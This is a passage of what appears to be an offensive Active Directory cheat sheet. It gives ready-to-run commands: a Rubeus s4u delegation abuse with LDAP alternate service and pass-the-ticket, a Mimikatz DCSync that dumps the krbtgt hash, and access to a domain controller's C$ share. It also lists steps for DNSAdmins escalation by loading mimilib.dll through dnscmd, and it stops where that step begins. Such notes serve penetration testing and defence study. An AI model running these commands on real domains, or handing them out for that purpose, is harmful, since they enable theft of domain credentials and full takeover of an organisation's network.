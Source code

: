 ```console
klist
```

### <span style="color:#F1C232">3. We can access the file system</span>

```powershell
ls \\dc-name-here\C$
```

## <span style="color:lightgreen">Using Rubeus.exe - Computers</span>

### <span style="color:#F1C232">1. abuse delegation of computerX$ using Rubeus (Note: use the /altservice parameter to include LDAP for DCSync attack)</span>

```powershell
.\Rubeus.exe s4u /user:comuterX$ /rc4:rc4-hash-here /impersonateuser:Administrator /msdsspn:"service-name-here" /altservice:ldap /ptt
```

### <span style="color:#F1C232">2. Run the DCSync attack</span>

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">DNS Admins</span>

* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
* In case the DC also serves as DNS, this will provide us escalation to DA. Need privileges to restart the DNS service.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. List all the DNS admins members
- [x] 2. Get a powershell session as that user using "Over pass the hash" since we shall already have the hash
- [x] 3. Load **mimilib.dll** using dnscmd
- [x] 4. Restart the dns of the DC
- [x] 5. Now all the DNS queries get stored at **C:\Windows\System32\kiwidns.log**

## <span style="color:lightgreen">RSAT DNS</span>

### <span style="color:#F1C232">1. From the privileges of DNSAdmins group member, configure DLL using dnscmd.exe</span>
